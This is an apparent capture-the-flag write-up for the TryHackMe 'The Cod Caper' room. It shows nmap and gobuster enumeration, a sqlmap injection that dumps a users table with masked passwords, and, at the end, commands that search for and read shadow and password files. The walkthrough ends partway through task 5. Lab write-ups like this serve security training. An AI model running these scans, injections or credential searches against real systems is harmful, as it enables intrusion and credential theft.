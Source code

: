 # The Cod Caper
> 4lch3my | June 27, 2023
-------------------
#### A guided room taking you through infiltrating and exploiting a Linux system.
#### [Room Link](https://tryhackme.com/room/thecodcaper)

## Tasks 
##### 1. Intro
  Deploy the machine with the Start Machine button, also either deploy your [Attack Box](https://tryhackme.com/access) OR Connect to [OpenVPN](https://tryhackme.com/access) and deploy your personal KALI machine.
<br>


##### 2. Host Enumeration
To start, I will use [nmap] which is default option on the personal Kali install I have. We start with a basic command
  `nmap -sC -sV -A MACHINE_IP `
The -sC flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The -sV probes all open ports it finds to determine if we can get the service/version information. -A uses agressive mode, so we can follow along with the commands and enumeration.
  In our NMAP results we get:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2023-05-15 23:25 BST
Nmap scan report for ip-10-10-2-173.eu-west-1.compute.internal (10.10.2.173)
Host is up (0.00062s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
|_  256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:B2:1D:FE:B3:AD (Unknown)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.13
OS details: Linux 3.13
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nmap done: 1 IP address (1 host up) scanned in 12.24 seconds
```

##### 3. Web Enumeration
Time to run gobuster to see what directorys we have on `port 80`. To do this we can run the command:`gobuster dir -u MACHINE_IP -w /usr/share/wordlists/dirb/big.txt -x php,html,txt` what will look for common files with the extensions: `php,html,txt`

```
===============================================================
Gobuster v3.0.1
===============================================================
[+] Url:            http://10.10.2.173/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,txt
[+] Timeout:        10s
===============================================================
2023/05/15 23:35:06 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.txt (Status: 403)
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.html (Status: 403)
/administrator.php (Status: 200)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2023/05/15 23:35:13 Finished
===============================================================
```

##### 4. Web Exploitation

sqlmap -u http://MACHINE_IP/administrator.php --forms --dump

```
       ___
       __H__
 ___ ___[.]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[*] starting at 23:39:14
[#1] form:
POST http://MACHINE_IP:80/administrator.php
POST data: username=&password=
do you want to test this form? [Y/n/q] 
> yes
Edit POST data [default: username=&password=] (Warning: blank fields detected): 
do you want to fill blank fields with random values? [Y/n] Y
...
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
...
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
...
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
...
do you want to exploit this SQL injection? [Y/n] Y
[23:40:08] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0
[23:40:08] [INFO] fetching current database
[23:40:08] [INFO] retrieved: users
[23:40:08] [INFO] used SQL query returns 2 entries
[23:40:09] [INFO] fetching entries for table 'users' in database 'users'
[23:40:09] [INFO] retrieved: p******d
[23:40:09] [INFO] retrieved: s********s
Database: users
Table: users
[2 entries]
+------------+------------+
| username   | password   |
+------------+------------+
| s********s | s********s |
| p******d   | p******d   |
+------------+------------+
[*] shutting down at 23:40:09
```


TASK5

Log in with credentials above to /administrator.php
Run: ls
run: find / 2>>/dev/null | grep -i shadow
run: find / 2>>/dev/null | grep -i pass
run: cat /var/hidden/pass
